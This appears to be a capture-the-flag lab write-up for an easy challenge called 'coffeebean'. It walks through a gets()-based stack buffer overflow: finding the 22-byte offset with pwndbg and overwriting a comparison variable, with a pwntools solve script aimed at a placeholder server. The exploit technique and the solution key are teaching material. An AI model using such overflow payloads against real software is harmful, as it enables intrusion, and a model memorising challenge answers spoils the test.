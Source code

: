 # Challenge Name
coffeebean

## Learning Objective
Test understanding of the stack overflow

## Description 
The perfect beans for the perfect cup of coffee.

## Difficulty:
easy

## Guide
Let's look at the source code.

```c
void harvest() {
    char beans[10] = "notgood";
    char condition[20];
    printf("How are the beans doing? \n");
    gets(condition);
    keg(beans);
}
```

There is a buffer overflow vulnerability with the use of `gets` for the `condition` variable.

The `keg` function also checks for the `beans` variable:

```c
    if (strcmp(beans, "perfect") == 0){
```

`beans` is set to `notgood`, so what we actually want to do here is to overwrite the **variable**.

But first we need to find out exactly how many bytes we need to overwrite.

This time we will also set a breakpoint at `keg` function to check.

### strmcp in asm
Before the program calls `strcmp`, `rsi` & `rdi` registers will point to the location of the 2 values that are being compared.

```shell
rsi: value 1
rdi: value 2
call strcmp@plt 
```

### Finding offset
Run the following in gdb:
1. `break keg`
2. `run`
3. send a cyclic pattern of 30 when program asks for input (`cyclic 30`)

You should see this in the disassembly:
```shell
   0x4007b0 <keg+25>    lea    rsi, [rip + 0x1d1]               RSI => 0x400988 ◂— jo 0x4009ef /* 'perfect' */
   0x4007b7 <keg+32>    mov    rdi, rax                         RDI => 0x7fffffffdc46 ◂— 'aadaaaaa'
   0x4007ba <keg+35>    call   strcmp@plt                  <strcmp@plt>
```

We can see that the `rdi` register is pointing to our input. Let's check what is the offset we need.

```shell
pwndbg> cyclic -l aadaaaaa
Finding cyclic pattern of 8 bytes: b'aadaaaaa' (hex: 0x6161646161616161)
Found at offset 22
```

What this means is that we need to fill 22 bytes in the input first, before we can overwrite `notgood`. With this info, we can write our solve script.

### Script
```py
from pwn import *

# connect to remote server
p = remote("SERVER", port)

# send 22 bytes first
payload = b'A' * 22

#overwrite `notgood`
payload += b'perfect'

# send payload to server
p.sendline(payload)
p.interactive()
```


## Solution
Refer to solve.py

## Hints
1. how do you check how many bytes to overflow?
2. https://stackoverflow.com/questions/63110044/strcmp-in-nasm-x86-64-registers

## Attached Files
chall.c
chall

## Resources
- https://stackoverflow.com/questions/63110044/strcmp-in-nasm-x86-64-registers

## Flag
TBD